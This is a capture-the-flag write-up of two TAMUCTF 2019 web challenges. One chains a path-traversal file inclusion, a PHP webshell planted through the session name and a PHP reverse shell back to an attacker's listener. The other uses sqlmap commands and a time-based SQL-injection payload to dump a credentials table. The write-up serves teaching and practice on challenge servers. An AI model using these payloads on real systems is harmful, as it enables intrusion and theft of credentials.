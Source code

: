 ```yaml
---
layout: post
title: TAMUCTF - Web Exploitation
excerpt: "I did two web challenges for TAMU CTF and they were mostly applications of standard attacks. The sql inejection was interesting because it was not immediately obvious that it was injectable."
categories: [Writeups, TAMUCTF'19]
tags: [web]
---
```


I did two web challenges for TAMU CTF and they were mostly applications of standard attacks. The sql inejection was interesting because it was not immediately obvious that it was injectable.

#### FILESTORAGE
```
Try out my new file sharing site!

http://filestorage.tamuctf.com
```

When we first go to the site, we are given a box to input our name. As with any website, we just play around with the website and enter a random name. After we enter a name, we are greeted with a page that says there are three items. By clicking on the hello.txt, we see the url becomes `http://filestorage.tamuctf.com/index.php?file=hello.txt` This inclusion clearly looks like a local file inclusion vulnerability.  

We see that we can include `/etc/passwd` by going to the url `http://filestorage.tamuctf.com/index.php?file=../../../../../../etc/passwd` which outputs the content successfully.   Now that we have LFI, where is the flag? After trying common files such as `/flag.txt` and `flag.txt`, I did not find find the flag. My next step was the get a php shell. 

The first thing I checked is if I could access the `/proc` directory which contains information about running processes. By visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/cmdline` we confirm that we have access to the `/proc` folder. The next step was to enumerate through the `/proc/self/fd/#` directory to see if we could include some php code. I wrote this quick script to enumerate through the directory making sure to include the cookie `PHPSESSID` otherwise the file would not load.
```python
import requests  
  
cookies = {'PHPSESSID': 'copjc75a4klhenr59g98enqm74'}  
  
for i in range(0, 10000):  
  
r = requests.get('http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/' + str(i), cookies=cookies)  
  
print('req ' + str(i))  
print(r.text)
```

Looking at the output, it seemed like `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9` the output  of the page was `name|s:6:"redpwn";` It seems like our serialized session can be accessed from `/proc/self/fd/9`. Now we have a vector to include a php shell.

By setting our name to `<?php passthru($_REQUEST['c']); ?>` we can include a php webshell. Now if we visit `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=ls` we are able to run arbitrary commands on the server. A quick `ls -la /` shows a directory named `flag_is_here` which contains `flag.txt`. We get the flag by catting this file. The complete final payload was `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=cat%20/flag_is_here/flag.txt`.

This method was using a php webshell, but is it possible to get a full reverse shell? A similar approach to the php shell can we taken, we just need to run some php which will launch a reverse shell to our server. The payload which I used was `<?php $sock = fsockopen("ip",port);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>` where the ip and port is a serrver we control.  Before we execute this php, we need to listen on our server. The command to setup a listening server is `nc -nvlp port` 

After we have our server listening, we can run the php code by visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9`. On our server, we recieve a new connection from the webserver and we now have a full reverse shell. Now we can run the same commands `ls /` and `cat /flag_is_here/flag.txt`

#### PASSWORD_EXTRATOR
```
The owner of this website often reuses passwords. Can you find out the password they are using on this test server?

http://passwordextraction.tamuctf.com
```

When we first visit the site, we see that there is a form with a login and password. The first thought is that there is a sql injection. The title hints towards extracting the password, however I just wanted to test an auth bypass with the standard `' OR 1=1--` .  Normally, this would allow me to authenticate as a user and indicates that SQL injection is an attack vector. However, for this website all I recieved was `Invalid login info`.

Looking at the requests being made, the form submitted to `http://passwordextraction.tamuctf.com/login.php`  with parameters `username` and `password`. I wasn't sure what to do so I launched sqlmap. SQLMap can be found from this git repository `https://github.com/sqlmapproject/sqlmap`.

The first command was to see if the website was vulnerable. It is a post request and the `*` represents parameters to test for injection.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3
```
SQLMap found a vulnerability in a time based injection. The payload used was 
```
' AND (SELECT 9235 FROM (SELECT(SLEEP(5)))yzuo) AND 'E
```

From here, we can just extract data from the database and find the flag. First we list all databases.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -dbs
```

We see there is a non-default database named `db`, so we want extract the tables.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -tables
```

We see there is a table named `accounts` and want to dump all the information in it.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -T accounts --dump
```

The extract data yields the admin user and its password, which is the flag.

Interestingly, I was curious as to why my authentication payload did not work so I went back to the main website and testsed with the credentials I extracted. I was surprised to see the same `Invalid login info.` It seems like if the autentication was successful, the page displayed was the same which is why I didn't realize the site was even vulnerable after testing with the authentication bypass payload. However, when I used the command from SQLMap, the page loaded after a couple of seconds, indicating that the time based injection had worked. This is interesting to note for the future because even though there was initially no clear indication that sql injection was an attack vector, however it was still vulnerable with a different attack type.
